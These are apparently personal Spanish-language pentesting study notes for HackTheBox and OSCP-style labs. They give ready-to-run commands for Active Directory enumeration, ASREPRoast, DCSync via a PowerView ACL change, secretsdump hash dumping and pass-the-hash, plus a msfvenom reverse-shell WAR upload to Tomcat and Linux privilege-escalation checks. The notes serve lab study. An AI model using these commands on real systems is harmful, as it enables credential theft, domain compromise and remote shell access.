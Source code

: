 # WINDOWS
## INTRUSIÓN

### SMB


es el puerto 445
para escanearlo primero hacemos tradicional de nmap y despues podemos listar directorios con ```bash smbmap -H <IP> -u 'null--> usuario'```



utilidad ALLINFO para smbclient que detecta data escondida --> allinfo **archivo**

### RPC
se pueden enumerar usuarios por via de rpc con el siguiente comando:
```bash
rpcclient **IP** -U "" -c "enumdomusers" -N
```


### ASREPRoast
El ataque ASREPRoast se basa en encontrar usuarios que no requieren pre-autenticación de Kerberos. Lo cual significa que cualquiera puede enviar una petición AS_REQ en nombre de uno de esos usuarios y recibir un mensaje AS_REP correcto.
Esta respuesta contiene un fragmento del mensaje cifrado con la clave del usuario, que se obtiene de su contraseña. Por lo tanto, este mensaje se puede tratar de crackear offline para obtener las credenciales de dicho usuario.
```bash
crackmapexec ldap **DOMINIO** -u **usuario o archivo con ususarios** -p 'es nulo o no' --asreproast hashuser -outfile

```


### EVILWIN-RM
si tenemos un usuario y contraseña y hacemos:

```bash
crackmapexec smb host -u 'user' -p 'password'
```

y sale el resultado como **pwnded**
podemos lanzar el siguiente comando:

```bash
evil-winrm -i **HOST**  -u **USUARIO** -p **CONTRASEÑA**

```



## ESCALADA DE PRIVILEGIOS
### DOMAIN CONTROLLER
#### GRUPOS
+ <STRONG>ACCOUNT OPERATORS</STRONG> : Los miembros de este grupo pueden crear, modificar o borrar cuentas de usuarios, grupos y equipos dentro del DC. Podríamos crear un usuario y meterlo en algún grupo con privilegios, como por ejemplo [Exchange Windows Permissions]**EXCHANGE WINDOWS PERMISSIONS**:

```powershell
net user /add **user** **password** /domain
```

 y después meterlo en el grupo que queramos con :
 
 ```powershell
net group "**GRUPO**" **usuario** /add /domain
```


+ Exchange Windows Permissions: Este grupo tiene permiso **WriteDacl**


#### ATAQUES SI USER TIENE WRITEDACL
Lo primero será pasar a la máquina víctima el siguiente script:

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

Después, deberemos de importarlo de la siguiente manera en la máquina víctima:

```powershell
Import-Module .\PowerView.ps1
```

Después, segun BloodHound:

```powershell
$SecPassword = ConvertTo-SecureString '**CONTRASEÑA**' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('**DOMINIO**\**USUARIO**', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity titi -Rights DCSync

```

Una vez hecho, podremos dumpear los hashes **NTLMv1** que nos serviran para hacer **passh the hash** con los usuarios que hemos dumpeado:

```bash
impacket-secretsdump htb.local/titi@10.10.10.161
```

Resultado:

```hash
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

De esta salida, lo que nos vale para hacer el **pass the hash**, ser la ultima parte.

ahora realizaremos el **pass the hash**:

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'




### BLOODHOUND
Esta es una herramienta que se puede utilizar para mapear un DC, por lo tanto se pueden descubrir usuarios que tipos de privilegios tienen y que grupos del dominio pertenecen, ESTÁ ACEPTADO EN EL OSCP.
para usarla deberemos de tener instalado a traves de apt **bloodhound** y **neo4j**,
para iniciarlo deberemos de escribir lo siguiente:

```bash
sudo neo4j start
```

despues nos dara una url y tendremos que poner de usuario y contraseña **neo4j**, aunque más tarde podemos cambiar esto.
Una vez realizado estos pasos, procedemos a ejecutar lo siguiente:

```bash
bloodhound --nosanbox
```

se nos abrira una aplicación y lo que deberemos de introducir son las contraseñas que habíamos puesto anteriormente en *neo4j*.
una vez hechos todos estos pasos deberemos de llevar el binario **sharphound.exe** o el script **SharpHound.ps1** que podemos encontrar en github. 
una vez estando uno de los dos en la máquina víctima, debemos ejecutarlo con ese comando, en la *máquina víctima*:
```bash
.\SharpHound.exe -c all
```

Esto nos reportará un zip que posteriormente cargaremos en bloodhound que anteriormente habiamos iniciado.

![](Pasted%20image%2020220426213215.png)

Una vez cargado el archivo, nos iremos a esta parte donde nos pone *Analisys*, y aquí podemos seleccionar que es lo que queremos ver.




# GENERAL

## Tomcat


path en un lfi para ver que usuario con que roles pueden acceder a  /manager
**/usr/share/tomcat9/etc/tomcat-users.xml**

si tenemos rol *manager-script* podemos administrar los archivos war y hacer un upload un war malicioso 
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

y para subirlo por curl:


```bash
curl --upload-file appplication-0.1-1.war "http://username:password@localhost:8080/manager/deploy?path=/application-0.1-1
```




# Linux
## MSFVENOM

### WAR
```bash 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```



## Tratamiento de la TTY

```bash
script /dev/null -c bash
```


despues:

cntrl + z

se saldra y despues escribiremos lo siguiente:

```bash
stty raw -echo; fg
```


y despues :

```bash

reset xterm
```


comprobaremos que las variables de SHELL=bash y TERM=xterm.


## ESCALADA DE PRIVILEGIOS

### GRUPOS
```bash
id
```


### TAREAS CRON

el path para buscar taread cron en linux son:

```table
/etc/cron.d
```

### LEAKY PATH
si vemos que en algún lago se esta llamando a ejecutar a algún ejecutable con la ruta corta se puede cambiar el path para que ejecute primero un ejecutable o script que tu te crees, ejemplo:

mal:
```bash
cat archivo
```
bien:
```bash
/bin/cat /path/to/archivo
```

para cambiar el path

```bash
export PATH=/temp:$PATH
```
se suele utilizar /temp ya que en ese directorio se puede crear y hacer lo que quieras.



### PERMISOS SUID

para buscarlos usaremos:

```bash
find / -perm -4000 2>/dev/null
```

### GRUPOS
si un usuario esta en el grupo (lxd) o en el grupo (docker) habria maneras de elevar nuestro privilegio.
```bash
searchsploit lxd
```

